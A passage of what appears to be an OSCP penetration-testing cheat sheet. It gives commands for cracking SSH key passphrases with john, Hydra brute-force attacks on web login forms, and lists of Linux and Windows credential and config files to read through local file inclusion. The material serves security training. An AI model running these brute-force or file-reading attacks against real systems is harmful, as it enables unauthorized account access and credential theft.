## ssh operations
```bash
##connect to ssh
ssh -i id_rsa daniela@192.168.50.244

##cracking ssh passphrase
ssh2john id_rsa > ssh.hash
john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
```

## Hydra
```bash
# http POST-form cracking (login forms), brute force username and password
hydra -l USERNAME -P /path/to/wordlist http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed text"

#bruteforce password only
hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -1 admin -P /usr/share/wordlists/rockyou. txt -vV -f![image](https://github.com/redcountryroad/OSCP-shortsheet/assets/166571565/a78ffd2d-a33b-4f53-8574-9b6a4a7f4c40)
```

## files of interest
- In the case where there is a LFI, and you cannot gain command execution try looking for interesting files which might contain credentials to help you move forward.

```bash
#Linux Interesting Files
/etc/passwd <- see which users are on the box
SSH keys <- using the information from above, check to see if there are any LFI keys
    - default location: /home/user/.ssh/id_rsa
/var/lib/tomcatX/tomcat-users.xml <- replace x with the tomcat version installed, and see if there are any credentias
```

```bash
#windows interesting files
C:/Users/Administrator/NTUser.dat
C:/Documents and Settings/Administrator/NTUser.dat
C:/apache/logs/access.log
C:/apache/logs/error.log
C:/apache/php/php.ini
C:/boot.ini
C:/inetpub/wwwroot/global.asa
C:/MySQL/data/hostname.err
C:/MySQL/data/mysql.err
C:/MySQL/data/mysql.log
C:/MySQL/my.cnf
C:/MySQL/my.ini
C:/php4/php.ini
C:/php5/php.ini
C:/php/php.ini
C:/Program Files/Apache Group/Apache2/conf/httpd.conf
C:/Program Files/Apache Group/Apache/conf/httpd.conf
C:/Program Files/Apache Group/Apache/logs/access.log
C:/Program Files/Apache Group/Apache/logs/error.log
C:/Program Files/FileZilla Server/FileZilla Server.xml
C:/Program Files/MySQL/data/hostname.err
C:/Program Files/MySQL/data/mysql-bin.log
C:/Program Files/MySQL/data/mysql.err
C:/Program Files/MySQL/data/mysql.log
C:/Program Files/MySQL/my.ini
C:/Program Files/MySQL/my.cnf
```